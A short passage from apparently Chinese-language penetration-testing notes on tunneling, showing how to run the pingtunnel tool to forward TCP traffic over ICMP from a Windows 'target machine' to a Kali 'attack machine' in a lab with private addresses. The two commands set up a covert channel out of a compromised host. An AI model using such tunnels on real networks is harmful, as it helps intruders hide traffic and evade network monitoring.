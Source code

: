 ![image-20231205140103703](./img/Tunnel/image-20231205140103703.png)

### 1.2 pingtunnel

> 下面以服务端为 server，client 端为 windows 为例（反过来无法上线，不知道为啥）

#### 基础转发 tcp 流量

简单的通过 icmp 隧道转发 tcp 流量，攻击机 kali-192.168.73.98

```
./pingtunnel -type server -key 123456
```

![image-20240109223556139](./img/Tunnel/image-20240109223556139.png)

靶机 Win-192.168.1.8

```
./pingtunnel.exe -type client -l :8888 -s 192.168.73.98 -t 192.168.73.98:7777 -tcp 1 -key 123456
```

![image-20240109223629232](./img/Tunnel/image-20240109223629232.png)
